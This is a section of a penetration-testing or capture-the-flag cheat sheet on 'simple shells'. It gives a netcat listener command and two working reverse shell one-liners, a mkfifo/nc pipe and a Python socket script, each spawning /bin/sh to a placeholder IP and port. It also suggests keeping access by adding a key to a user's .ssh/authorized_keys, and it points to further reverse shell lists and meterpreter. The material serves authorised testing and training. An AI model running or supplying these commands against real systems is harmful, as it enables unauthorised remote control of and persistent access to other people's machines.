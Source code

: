 5. Simple shells

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet is an amazing list of reverse shells if the ones listed here don't work.

#### Opening a connection on your computer:
- `nc -nlvp PORT`
	- This opens the port and waits for a connection to create a reverse shell

#### Common reverse shell commands:
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f`
- `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

#### Opening a bind shell
Bind shells aren't as common due to the fact that they are more vulnerable to being "stolen" as well as outgoing connections are harder to flag as bad traffic than incoming connections. I will not list them since I've never had a use for them outside of metasploit payloads, but https://ashr.net/bind/and/reverse/shell/cheatsheet/windows/and/linux.aspx is a good place to find some.

### Upgrading to an interactive shell
Sometimes you have a shell that lets you run commands but no tab completion, arrow key movement, etc.
- The first way is to edit the .ssh/authorized_keys of a user then ssh in. This also helps with ensuring you still have the conneciton to the server even if you patch the exploit/the connection drops
	- Note that some machines may not have ssh enabled or on the default port. Check your nmap scan!
- https://netsec.ws/?p=337 is a good list of how to spawn a tty shell, python being the one I use the most.

Sometimes you'll end up where you can't seem to get a tty shell no matter what you do. Keep trying or just work with what you have. If you have all the time in the world, consider using msfvenom and establishing a meterpreter shell, which is more consistent than whatever reverse shell you may have setup.